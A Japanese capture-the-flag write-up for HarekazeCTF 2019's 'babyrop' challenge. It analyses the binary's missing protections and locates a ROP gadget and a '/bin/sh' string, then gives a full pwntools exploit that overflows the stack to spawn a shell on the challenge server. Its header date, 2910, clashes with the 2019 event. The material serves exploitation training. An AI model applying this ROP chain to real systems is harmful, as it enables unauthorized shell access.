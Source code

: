 // date: 2910-05-20

# はじめに
５月１８日、 [#HarekazeCTF](https://twitter.com/hashtag/HarekazeCTF) に「NekochanNano!」の一員として参加させていただきました。最後に５１０ポイントを集めることが出来、私たちは５２３チームが参加する中、６８位で終えました。

# babyrop

## プログラム解析

ncatで接続可能なアドレスとポート番号に、ELFバイナリを手に入れます。

まず、`checksec`を使い、ELFのセキュリティ機構を確認します。

![babyropのセキュリティ機構](.res/babyrop_1.png)

RELRO、スタックカナーリやPIEが無く、すっごく助かります (^^;
<br>*これらのセキュリティ機構について、詳しくは[こちらの記事をご参照ください](https://web.archive.org/web/20170306105226/http://pwn.hatenadiary.jp/entry/2015/12/05/195316)。*

次に`radare2`で開き、main関数の逆アセンブリを解析しましょう。

![babyropの逆アセンブリ](.res/babyrop_2.png)

結構簡単なプログラムですが、動作を言葉で説明すると、下記のような感じでしょうね

1. `echo`シェルコマンドの文字列を`rdi`に用意、`system`を呼び出すのでメッセージを出力する
2. `scanf`を使い、任意なサイズの入力をスタック変数(`rbp-0x10`)に読み込む
3. フォーマット形式と、`rbp-0x10`（前の入力）をレジスタで指定、`printf`で入力を含めたメッセージを表示する

この問題の名前が「babyrop」なので、そしてスタックカナーリがないため、ROPが使うべきだとわかりますね。

それでは、ROPを使うので`system("/bin/sh");`を実行することを目的としましょう。

## シェル奪いの作戦

`system`を呼び出せば、引数を正しく用意しないといけません。mainの逆アセンブリを参考とし、`system`を呼び出した前に、シェルコマンド文字列へのポインターを`edi`で指定したことがわかりますね。ちなみに`edi`ですが、この場合に一緒なので、`rdi`を使ってもOK。

したがって、`edi`あるいは`rdi`に値を指定するいわゆる「ROP Gadget」が必要となります。良かったことで、`radare2`にはそういうガジェットを発見するという機能がありますので、`pop rdi`のガジェットを探してもらいましょう。

![babyrop_gadget](.res/babyrop_3.png)

さすが`radare2`ですね！よって`0x00400683`には、`pop rdi; ret`という命令が存在することがわかりました。

また、ポインターで指定できる`"/bin/sh"`の文字列を検索しましょうか。

![babyrop_string](.res/babyrop_4.png)

よし。`0x601048`には、`"/bin/sh"`という文字列が置いてあるようです。これで、「ROP Chain」の準備がやっとできました！

## エクスプロイト作成

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-
from pwn import *
from time import sleep

pop_rdi = p64(0x400683)
addr_binsh = p64(0x601048)
call_system = p64(0x4005e3)


payload = "a" * 0x10    # バッファーを超える
payload += "b" * 8      # RBP
payload += pop_rdi      # ガジェットに移動する
payload += addr_binsh   # rdiにpopされる
payload += call_system  # 関数の呼び出しに移動する

# sock = process(["./babyrop"])
sock = remote("problem.harekaze.com", 20001)
sock.readuntil("? ")
sock.sendline(payload)

sleep(1)
sock.interactive()
sock.close()
```

## シェルを奪い！

![babyrop_pwn](.res/babyrop_5.png)

以上 HarekazeCTF-2019の「babyrop」のライトアップでした。

最後まで読んで頂き、ありがとうございました！
